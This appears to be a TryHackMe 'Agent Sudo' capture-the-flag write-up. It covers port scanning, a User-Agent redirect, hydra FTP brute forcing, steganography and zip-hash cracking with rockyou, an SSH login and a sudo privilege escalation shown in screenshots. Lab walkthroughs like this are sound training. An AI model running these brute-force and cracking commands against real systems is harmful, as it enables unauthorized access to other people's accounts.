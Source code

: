 ```yaml
---
{"dg-publish":true,"permalink":"/write-ups/try-hack-me/agent-sudo/","tags":["CTF","write-up"]}
---
```



![Pasted image 20250107172956.png|300](/img/user/attachments/Pasted%20image%2020250107172956.png)

---

> [!INFO] Info about Agent Sudo
>  You found a secret server located under the deep sea. Your task is to hack inside the server and reveal the truth.
>  
>  Your task is simple, capture the flags just like the other CTF room. Have Fun!

> [!FAQ]- Hints
> If you are stuck inside the black hole, post on the forum or ask in the TryHackMe discord.

---
# Active reconnaissance
## Port scan
Perform a quick general scan on all ports.
```shell
sudo nmap TARGET_IP -n -p- -sS -Pn -vvv --open --min-rate 5000 -oN nmap_scan
```

```c
PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 61
22/tcp open  ssh     syn-ack ttl 61
80/tcp open  http    syn-ack ttl 61
```

> [!check]- How many open ports?
> 3

---
# Enumeration
Perform a deep scan with common scripts only on ports we are interested in.
```shell
sudo nmap TARGET_IP -sCV -p 21,22,80 -oN nmap_enum
```
## OS
Linux, Ubuntu
## Port 22 - SSH
tcp open  ssh     **OpenSSH 7.6p1** Ubuntu 4ubuntu0.3 (**Ubuntu Linux;** protocol 2.0)
## Port 21 - FTP
tcp open  ftp     **vsftpd 3.0.3**
## Port 80 - HTTP
tcp open  http    **Apache httpd 2.4.29** ((Ubuntu))
![Pasted image 20250107174853.png](/img/user/attachments/Pasted%20image%2020250107174853.png)

> [!check]- How you redirect yourself to a secret page?
> User-Agent

Use a User-Agent swicher pluggin or BurpSuite to change the name of the *User-Agent* to *C*
![Pasted image 20250107191057.png](/img/user/attachments/Pasted%20image%2020250107191057.png)

The server response with a *302* code, so it'will redirect, we need to press on the bottom.
> [!check]  What is the agent name?
> ![Pasted image 20250107191357.png](/img/user/attachments/Pasted%20image%2020250107191357.png)

Now we know that the agent *J* exists and the agent *C*'s password its weak.

---
# Exploitation
Done enumerate the machine? Time to brute your way out.
## Port 21 - FTP
```shell
hydra -f -V -t 64 -l chris -P /usr/share/wordlists/rockyou.txt 10.10.32.160 ftp  
```

> [!check]- FTP password
> ![Pasted image 20250107192438.png](/img/user/attachments/Pasted%20image%2020250107192438.png)

Login and download the files
![Pasted image 20250107192657.png|600](/img/user/attachments/Pasted%20image%2020250107192657.png)

![Pasted image 20250107192926.png](/img/user/attachments/Pasted%20image%2020250107192926.png)

It suggests steganography 
## Steganography
I'll try to brute force the file *cute-alien.jpg* with *stegcracker*
```shell
stegcracker cute-alien.jpg /usr/share/wordlists/rockyou.txt
```
It works

> [!check] steg password
> ![Pasted image 20250108091310.png|600](/img/user/attachments/Pasted%20image%2020250108091310.png)

Extract with *steghide* using the password from above
```shell
steghide extract -sf cute-alien.jpg
```
![Pasted image 20250108091425.png|400](/img/user/attachments/Pasted%20image%2020250108091425.png)
Read the *message.txt*

> [!check] Who is the other agent (in full name)?
> ![Pasted image 20250108091803.png](/img/user/attachments/Pasted%20image%2020250108091803.png)

> [!check] SSH password
> ![Pasted image 20250108091803.png](/img/user/attachments/Pasted%20image%2020250108091803.png)

Extract data from *cutie.png*
```shell
binwalk -e cutie.png
```
![Pasted image 20250108211414.png|500](/img/user/attachments/Pasted%20image%2020250108211414.png)

The file *8702.zip* is password protected, we need to get the hash to crack it.

Get the hash
```shell
zip2john 8702.zip > hash1 
```

Crack the hash
```shell
john --wordlist=/usr/share/wordlists/rockyou.txt hash1
```

> [!check] Zip file password
> ![Pasted image 20250108213540.png](/img/user/attachments/Pasted%20image%2020250108213540.png)

Extract the file
```shell
7z x 8702.zip
```
We have a new file *To_agentR.txt*, the past file was empty.
![Pasted image 20250108214905.png|500](/img/user/attachments/Pasted%20image%2020250108214905.png)

The code is a base64 code
```shell
echo "Q*****x" | base64 -d
```
![Pasted image 20250108215333.png|300](/img/user/attachments/Pasted%20image%2020250108215333.png)
This is the same password founded above with the tool *stegcracker*
## SSH login
```shell
ssh james@10.10.125.163
```
![Pasted image 20250108103042.png](/img/user/attachments/Pasted%20image%2020250108103042.png)

> [!check] What is the user flag?
> ![Pasted image 20250108103233.png](/img/user/attachments/Pasted%20image%2020250108103233.png)

We also have an image *Alien_autospy.jpg*
Download it and search info to get the flag

> [!check] What is the incident of the photo called?
> ![Pasted image 20250108104443.png](/img/user/attachments/Pasted%20image%2020250108104443.png)

---
# Privilege escalation
## sudo -l
Executing `sudo -l`
![Pasted image 20250108220503.png](/img/user/attachments/Pasted%20image%2020250108220503.png)

Searching info about this.
![Pasted image 20250108220408.png|500](/img/user/attachments/Pasted%20image%2020250108220408.png)
It is our sudo vulnerability and present an exploit to leverage it.
> [!check] CVE number for the escalation
> ![Pasted image 20250108220632.png|600](/img/user/attachments/Pasted%20image%2020250108220632.png)

Execute the exploit
![Pasted image 20250108221059.png](/img/user/attachments/Pasted%20image%2020250108221059.png)

> [!check] Root flag
> ![Pasted image 20250108223652.png](/img/user/attachments/Pasted%20image%2020250108223652.png)

> [!check] (Bonus) Who is Agent R?
> ![Pasted image 20250108223658.png](/img/user/attachments/Pasted%20image%2020250108223658.png)


---

